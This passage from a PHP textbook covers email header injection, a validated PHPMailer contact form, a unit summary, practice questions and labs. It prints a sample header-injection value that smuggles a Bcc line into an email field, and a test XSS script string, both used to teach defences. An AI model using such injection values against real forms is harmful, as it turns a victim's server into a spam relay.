> **Teacher's Note:** For classroom demos without a real mailbox, a fake SMTP inbox such as Mailtrap or the free desktop tool MailHog/Mailpit is convenient: change only `Host`, `Port`, `Username` and `Password`. Students see the exact email without spamming real addresses.

### 4.7.3 Email header injection

**Email header injection** is an attack on contact forms. Email headers are separated by newlines (`\r\n`). If you put user input (like the visitor's email) into a header without checking it, an attacker can type newlines plus extra headers:

```
attacker@evil.com\r\nBcc: victim1@example.com, victim2@example.com
```

The header block then contains a new `Bcc:` line, and your server sends spam to thousands of people. Your server's IP gets blacklisted.

**Defences:**

1. **Validate** the email with `filter_var($email, FILTER_VALIDATE_EMAIL)`. It rejects any value containing newlines.
2. **Reject** any header-bound field (name, subject) containing `\r` or `\n`: `preg_match('/[\r\n]/', $value)`.
3. Never put user input in the `From` header. Use your own address in `From` and the visitor's address in `Reply-To`.
4. Prefer **PHPMailer**: its `addReplyTo()`, `addAddress()` and `setFrom()` methods validate addresses and refuse header injection.

### 4.7.4 Complete example: contact form

**Example 4.26: Contact form that emails the site owner**

`contact.php`

```php
<?php
use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\Exception;
require __DIR__ . '/vendor/autoload.php';

$name = trim($_POST['name'] ?? '');
$email = trim($_POST['email'] ?? '');
$message = trim($_POST['message'] ?? '');
$errors = [];
$sent = false;

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if ($name === '' || preg_match('/[\r\n]/', $name)) {
        $errors['name'] = 'Enter a valid name.';
    }
    if (filter_var($email, FILTER_VALIDATE_EMAIL) === false) {
        $errors['email'] = 'Enter a valid email address.';
    }
    if (mb_strlen($message) < 10) {
        $errors['message'] = 'Message must be at least 10 characters.';
    }

    if (!$errors) {
        $mail = new PHPMailer(true);
        try {
            $mail->isSMTP();
            $mail->Host = 'smtp.gmail.com';
            $mail->SMTPAuth = true;
            $mail->Username = 'yourname@gmail.com';
            $mail->Password = 'your-app-password';
            $mail->SMTPSecure = PHPMailer::ENCRYPTION_STARTTLS;
            $mail->Port = 587;
            $mail->CharSet = 'UTF-8';

            $mail->setFrom('yourname@gmail.com', 'Website Contact Form'); // our address
            $mail->addAddress('owner@college.edu.np');
            $mail->addReplyTo($email, $name);                              // visitor's address
            $mail->Subject = 'New contact message from ' . $name;
            $mail->Body = "Name: $name\nEmail: $email\n\nMessage:\n$message"; // plain text

            $mail->send();
            header('Location: contact.php?sent=1', true, 303);   // Post/Redirect/Get
            exit;
        } catch (Exception $e) {
            $errors['mail'] = 'Sorry, your message could not be sent. Please try later.';
            error_log('Mailer error: ' . $mail->ErrorInfo);      // log details, do not show them
        }
    }
}
$sent = isset($_GET['sent']);
function e(string $v): string { return htmlspecialchars($v, ENT_QUOTES, 'UTF-8'); }
?>
<?php if ($sent): ?>
    <p style="color:green">Thank you! Your message has been sent.</p>
<?php endif; ?>
<?php foreach ($errors as $err): ?>
    <p style="color:red"><?= e($err) ?></p>
<?php endforeach; ?>
<form method="post" action="contact.php">
    Name: <input type="text" name="name" value="<?= e($name) ?>"><br>
    Email: <input type="email" name="email" value="<?= e($email) ?>"><br>
    Message:<br><textarea name="message" rows="5" cols="40"><?= e($message) ?></textarea><br>
    <button type="submit">Send</button>
</form>
```

**Output** (valid input):

```
Thank you! Your message has been sent.
[empty form]
```

**Output** (email `ram@`, message `Hi`):

```
Enter a valid email address.
Message must be at least 10 characters.
[form with the typed values kept]
```

This one example uses almost everything in the unit: self-processing, `REQUEST_METHOD` check, trimming, validation with an error array, header-injection protection, sticky values, `htmlspecialchars()` on output, PHPMailer with SMTP, and PRG.

> **Exam Tip:** For "Explain how to send email in PHP", write the `mail()` syntax with its parameters and a short example, then explain why PHPMailer with SMTP is preferred (authentication, TLS, HTML, attachments, error reporting), and finish with one line on header injection.

---

## Summary

- An HTML form sends data to the script named in `action` using the HTTP method in `method`; only fields with a `name` attribute are sent.
- Check `$_SERVER['REQUEST_METHOD'] === 'POST'` to know whether a form was submitted. `isset()` tests existence; `empty()` treats `""`, `"0"` and `0` as empty.
- A self-processing form submits to itself; always use `htmlspecialchars($_SERVER['PHP_SELF'])` (or `action=""`) to avoid XSS.
- GET puts data in the URL (visible, bookmarkable, limited, for reading); POST puts it in the body (for changing data, logins, uploads). POST is not encryption; use HTTPS.
- Use `$_GET` and `$_POST` explicitly; avoid `$_REQUEST`. `$_SERVER` holds request and server information, but its `HTTP_*` values and `PHP_SELF` are user-controlled.
- Build query strings with `urlencode()` / `http_build_query()`. Use Post/Redirect/Get (`header('Location: ...', true, 303); exit;`) to prevent duplicate submissions.
- Sticky forms refill values: `value="..."` for inputs, content inside `<textarea>`, `selected` for options, `checked` for radios and checkboxes. Do not refill passwords.
- Never trust user input. Client-side checks are for convenience; server-side validation is mandatory.
- Validation checks data (accept/reject); sanitization cleans data. Use `trim()`, then validate, then escape on output.
- `filter_var()` / `filter_input()` with `FILTER_VALIDATE_INT`, `_FLOAT`, `_EMAIL`, `_URL`, `_BOOLEAN` and sanitize filters; compare results with `=== false`. `FILTER_SANITIZE_STRING` is deprecated.
- Use anchored regular expressions with `preg_match()` for formats like phone numbers and usernames.
- `htmlspecialchars()` converts `& < > " '` into entities and is the main defence against XSS. Collect errors in an array and show them next to each field. Add a CSRF token to forms that change data.
- Checkbox groups and multiple selects need `name="x[]"`; unticked boxes send nothing. Validate every choice against an allowed list with `in_array(..., true)`.
- File uploads need `method="post"` and `enctype="multipart/form-data"`. Check `$_FILES[...]['error']`, size, the real MIME type with `finfo`, an extension whitelist and `getimagesize()`; never trust `$_FILES[...]['type']`. Save with a random name via `move_uploaded_file()`. Limits come from `upload_max_filesize` and `post_max_size`.
- `mail()` is simple but needs server/SMTP configuration (e.g. sendmail on XAMPP). PHPMailer with authenticated SMTP (Gmail App Password) is the recommended way. Prevent header injection by validating emails and rejecting newlines.

---

## Practice Questions

### Short Answer Questions (2-3 marks)

1. What is the purpose of the `action`, `method` and `name` attributes in an HTML form?
2. Differentiate between `isset()` and `empty()` with an example.
3. What is a self-processing form? Why should `$_SERVER['PHP_SELF']` be passed through `htmlspecialchars()`?
4. What is a query string? Give an example and show how to read it in PHP.
5. Why is the use of `$_REQUEST` discouraged?
6. List any five keys of the `$_SERVER` array with their meaning.
7. What is a sticky form? How do you make a `<textarea>` and a `<select>` sticky?
8. Why must `name="hobbies[]"` be used for a group of checkboxes?
9. Why is `enctype="multipart/form-data"` required for file uploads? Name the five main keys of `$_FILES`.
10. What is email header injection? How can it be prevented?

### Long Answer Questions (5-10 marks)

1. Differentiate between GET and POST methods. Write a PHP program that uses GET for a search form and POST for a login form.
2. What is the difference between validation and sanitization? Explain `filter_var()` and `filter_input()` with at least three validate filters and two sanitize filters, with examples.
3. What is Cross-Site Scripting (XSS)? Demonstrate a vulnerable PHP script and show how `htmlspecialchars()` prevents the attack. Briefly explain how a CSRF token works.
4. Write a PHP program for a student registration form (name, email, mobile number, age, password and confirm password) that validates all fields on the server, shows an error message beside each invalid field and keeps the entered values (sticky form).
5. Explain the steps and security checks needed for uploading an image file in PHP. Write a PHP script to upload an image (JPG/PNG, maximum 1 MB) with proper validation, and explain the role of `upload_max_filesize` and `post_max_size`.
6. Explain how email can be sent from PHP using the `mail()` function and using PHPMailer. Why is PHPMailer with SMTP preferred? Write a contact form that sends the message to the site owner.

### Programming Exercises

1. **(Easy)** Create a form that takes two numbers and an operator (+, -, ×, ÷) from a select list and displays the result on the same page. Handle division by zero.
2. **(Easy)** Write a page `product.php` that reads `?id=` from the URL, validates it with `filter_input()`, and displays the product from a PHP array or "Product not found".
3. **(Easy-Medium)** Create a marks form for five subjects. Validate that each mark is an integer from 0 to 100 (note: 0 is valid). Display total, percentage and division (Distinction ≥ 80, First ≥ 60, Second ≥ 45, Pass ≥ 40, Fail otherwise). Make the form sticky.
4. **(Medium)** Build a pizza order form with size (radio), toppings (checkbox group) and crust (select). Validate every choice against an allowed list, calculate the price, and use Post/Redirect/Get to show a confirmation page.
5. **(Medium)** Write a function `validatePhone(string $n): bool` for Nepali mobile numbers and a function `validatePassword(string $p): array` that returns a list of all rules the password breaks (length, letter, digit, special character).
6. **(Medium-Hard)** Extend the registration form (Example 4.18) with a date of birth field (`type="date"`) and check that the user is at least 16 years old using `DateTime`. Add a CSRF token.
7. **(Hard)** Create an assignment submission page that accepts only PDF files up to 5 MB, checks the real MIME type with `finfo`, renames the file as `<rollno>_<random>.pdf`, and lists all previously uploaded files with download links.
8. **(Hard)** Create a "Forgot password" demo: the user enters an email; if it is valid, generate a random 6-digit code with `random_int()`, send it with PHPMailer, store it in the session, and provide a second form to verify the code.

---

## Lab Work

### Lab 4.1: Registration Form with Server-Side Validation

**Objective:** Process an HTML form with PHP, validate and sanitize every field, show per-field errors and keep user input.

**Steps:**

1. In `C:\xampp\htdocs\unit4\`, create `register.php` as a self-processing form with fields: full name, email, mobile, gender (radio), faculty (select), hobbies (checkbox group), password and confirm password.
2. Check `$_SERVER['REQUEST_METHOD']`. Trim all text input.
3. Validate: name (required, letters and spaces, 3-50 chars), email (`FILTER_VALIDATE_EMAIL`), mobile (`/^9[678]\d{8}$/`), gender and faculty against allowed lists, at least one hobby (each from the allowed list), password (8+ chars, letter and digit) and confirmation match.
4. Store errors in `$errors['field']` and print each message under its field.
5. Make every field sticky (except passwords) and escape all output with `htmlspecialchars()`.
6. Add `novalidate` to the form while testing so that only PHP validation runs; test with invalid data, including a modified radio value via Developer Tools.
7. On success, hash the password with `password_hash()` and display a summary table of the submitted data (do not display the hash or password).

**Expected outcome:** Invalid submissions show clear messages next to the right fields with other values preserved; a script entered as the name (`<script>alert(1)</script>`) is shown as plain text or rejected; valid submissions show the summary. Reference solution: Example 4.18 together with Example 4.20.

### Lab 4.2: Secure Image Upload

**Objective:** Upload an image file and validate its type, size and other attributes before storing it.

**Steps:**

1. Create `upload.php` and an `uploads/` folder in `htdocs/unit4/`.
2. Build a form with `method="post"`, `enctype="multipart/form-data"` and `<input type="file" name="photo">`.
3. Print `$_FILES['photo']` with `print_r()` once to understand its structure, then remove it.
4. Add checks in this order: upload error code (with a message for each code), size ≤ 2 MB, real MIME type using `finfo` (only `image/jpeg`, `image/png`, `image/gif`), extension whitelist, `getimagesize()` with maximum dimensions.
5. Generate a unique name with `bin2hex(random_bytes(8))` and the extension that matches the detected MIME type, then call `move_uploaded_file()`.
6. Display the uploaded image and its width, height and size in KB.
7. Test with: a valid JPG, a PNG larger than 2 MB, a `.txt` or `.php` file renamed to `.jpg`, and submitting with no file. Then change `upload_max_filesize` to `1M` in `php.ini`, restart Apache, and observe error code 1.

**Expected outcome:** Only genuine images within the limits are saved in `uploads/` under random names; every invalid case shows a clear error and no file is saved. Reference solution: Example 4.22.
